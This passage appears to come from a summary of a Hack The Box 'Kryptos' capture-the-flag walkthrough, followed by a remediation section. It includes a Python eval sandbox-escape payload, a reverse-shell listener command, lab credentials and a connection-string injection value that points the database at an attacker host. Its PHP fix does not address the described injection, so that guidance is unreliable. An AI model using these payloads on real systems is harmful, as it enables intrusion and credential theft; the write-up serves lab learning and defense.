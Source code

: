13. **User Enumeration and Credential Decryption**
    - Found /home/rijndael/: creds.old (rijndael:kryptos1) and encrypted creds.txt (VimCrypt~02).
    - Decrypted creds.txt using XOR attack on Blowfish CFB (static IV, known plaintext prefix). Revealed password "rijndael:Krypt0n1t3!".
    - Technique: Known plaintext attack on weak crypto implementation.
    - Tools/Commands: `dd` to strip header, Custom Python XOR script, `base64` for transfer.

14. **Privilege Escalation to User (SSH Login)**
    - SSH as rijndael using cracked password.
    - Technique: Credential reuse.
    - Tools/Commands: `ssh rijndael@[TARGET-IP]`.

15. **Discovering Internal Web Server**
    - Found Python Bottle app (/cryptos/cryptos.py) running on localhost:81.
    - Technique: Local enumeration.
    - Tools/Commands: `curl http://127.0.0.1:81`.

16. **Exploiting Weak RNG in Signing Key Generation**
    - Analyzed code: Weak random number generator (secure_rng) produces duplicates (~10% collision rate).
    - Brute-forced possible seeds from pre-generated list to find signing key.
    - Technique: Weak randomness exploitation for key recovery.
    - Tools/Commands: Custom Python script to generate/test RNG outputs.

17. **Bypassing Eval Restrictions for Code Execution**
    - Signed malicious expression bypassing built-in restrictions (e.g., `__class__.__base__.__subclasses__()[117].__init__.__globals__['os'].system`).
    - Executed reverse shell as root.
    - Technique: Python eval jailbreak via subclass manipulation.
    - Tools/Commands: Custom Python signing script, SSH port forwarding (`ssh -L 81:127.0.0.1:81 rijndael@[TARGET-IP]`), `nc -lvnp 9001`.

This sequence leads to full compromise (user and root flags). The walkthrough emphasizes crypto misconfigurations as the primary theme, with techniques like known plaintext attacks recurring across steps.

## Security Gaps and Remediation

Below is a detailed list of the security gaps identified in each service or system from the provided Kryptos Hack The Box walkthrough, along with recommended fixes to address these vulnerabilities. The gaps are organized by the affected service or system component, and each includes either a **source code fix** or a **configuration fix** to mitigate the issue. The fixes aim to prevent the exploitation steps outlined in the walkthrough.

---

### 1. Web Server (Apache on Port 80)
**Service/System**: Apache HTTP server running PHP-based web application.

#### Gap 1: SQL Injection in Login Form (`db` Parameter)
- **Description**: The `db` parameter in the login form is injectable, allowing attackers to manipulate the database connection string (e.g., `db=crypt';host=[ATTACKER-IP]`) to redirect connections to a malicious server and capture credentials.
- **Impact**: Attackers can exfiltrate database queries or capture authentication hashes.
- **Fix**:
  - **Source Code Fix**: Implement proper input sanitization and use prepared statements or parameterized queries for all user inputs. For example, in PHP:
    ```php
    $db = filter_input(INPUT_POST, 'db', FILTER_SANITIZE_STRING);
    $stmt = $pdo->prepare("SELECT * FROM users WHERE db = :db");
    $stmt->bindParam(':db', $db);
    $stmt->execute();
    ```
    Avoid directly concatenating user input into SQL queries.